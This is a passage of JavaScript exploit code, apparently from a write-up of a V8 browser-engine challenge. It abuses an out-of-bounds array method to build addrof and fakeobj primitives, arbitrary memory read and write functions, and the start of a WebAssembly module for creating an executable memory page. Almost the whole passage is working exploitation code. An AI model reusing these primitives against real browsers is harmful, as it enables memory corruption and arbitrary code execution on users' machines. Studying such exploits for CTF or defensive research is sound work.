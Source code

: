```javascript
    let addr = obj_arr[0];

    // Set the map back
    obj_arr.oob(obj_arr_map);

    // Return the address as a BigInt
    return ftoi(addr);
}

function fakeobj(addr) {
    // First, put the address as a float into index 0 of the float array
    float_arr[0] = itof(addr);

    // Change the float array's map to the obj array's map
    float_arr.oob(obj_arr_map);

    // Get a "fake" object at that memory location and store it
    let fake = float_arr[0];

    // Set the map back
    float_arr.oob(float_arr_map);

    // Return the object
    return fake;
}
// This array is what we will use to read from and write to arbitrary memory addresses
var arb_rw_arr = [float_arr_map, 1.2, 1.3, 1.4];

console.log("[+] Controlled float array: 0x" + addrof(arb_rw_arr).toString(16));

function arb_read(addr) {
    // We have to use tagged pointers for reading, so we tag the addr
    if (addr % 2n == 0)
	addr += 1n;

    // Place a fakeobj right on top of our crafted array with a float array map
    let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);

    // Change the elements pointer using our crafted array to read_addr-0x10
    arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);

    // Index 0 will then return the value at read_addr
    return ftoi(fake[0]);
}

function initial_arb_write(addr, val) {
    // Place a fakeobj right on top of our crafted array with a float array map
    let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);

    // Change the elements pointer using our crafted array to write_addr-0x10
    arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);

    // Write to index 0 as a floating point value
    fake[0] = itof(BigInt(val));
}

console.log("[+] Creating an RWX page using WebAssembly");

// https://wasdk.github.io/WasmFiddle/
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
```